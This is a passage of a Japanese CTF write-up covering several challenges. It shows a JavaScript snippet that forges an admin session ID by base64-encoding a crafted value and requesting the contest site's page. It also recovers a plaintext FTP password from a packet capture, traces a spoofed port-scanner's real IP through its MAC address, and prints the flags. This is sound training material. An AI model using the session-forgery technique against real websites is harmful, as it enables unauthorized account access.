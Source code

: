```javascript
(async () => {
    const baseUrl = "https://fr1-prod.2025winter-cybercontest.net/";
    const payload = "1822334192,1,admin";
    const b64Payload = btoa(payload);
    const res = await fetch(baseUrl + "mypage.php?sesid=" + b64Payload);
    console.log(await res.text());
})();
```
するとフラグがもらえました。
```
flag{SessionIDsCarefully}
```

### 成功の証

FTPパケットの中からパスワードを取得する問題です。
まずはフィルタでFTPパケットだけ抜き出します。
```
ftp
```
6537個目のパケットでPASS zyyzzyzyでログインを試みているパケットがあり、そのレスポンスとして認証成功のパケットが返ってきているのを発見しました。
なのでそれが正しいパスワードになります。
これは殆どのパケットに言えることなのですが、リクエストとレスポンスを見たいときはFollow TCP StreamなどのFollow機能を使うと見やすいのでおすすめです。
今回の場合だとこうなります。
![alt text](image3.png)
```
flag{zyyzzyzy}
```

### 犯人はこの中にいる！

個人的にFRの中で一番好きな問題です。
ポートスキャンが行われた痕跡のあるキャプチャファイルが渡されます。
ですが攻撃を行ったクライアントはIPを偽造しているので、本当のIPを求めるという問題です。
問題文には```これは内部にいる攻撃者が外部IPアドレスを偽造したものです```という記述があったので
攻撃者は攻撃を受けたクライアントと同一ネットワーク上にいると判断し、調査を進めていきます。
同一ネットワークならばMACアドレスは攻撃者のMACアドレスのままなので、まずはMACアドレスを確認します。
```
VMware_4d:c2:33 (00:0c:29:4d:c2:33)
```
Wiresharkのフィルタを用いて送信元MACがこれと同じパケットを探します。
```
ether.src == 00:0c:29:4d:c2:33
```
すると1つのICMPパケットがそれに該当しました。
これの送信元IPを見ると偽造されていないIPアドレスが書かれていました。
これで攻撃者のIPアドレスを求めることができました。
```
flag{192.168.204.137}
```

### Chemistry
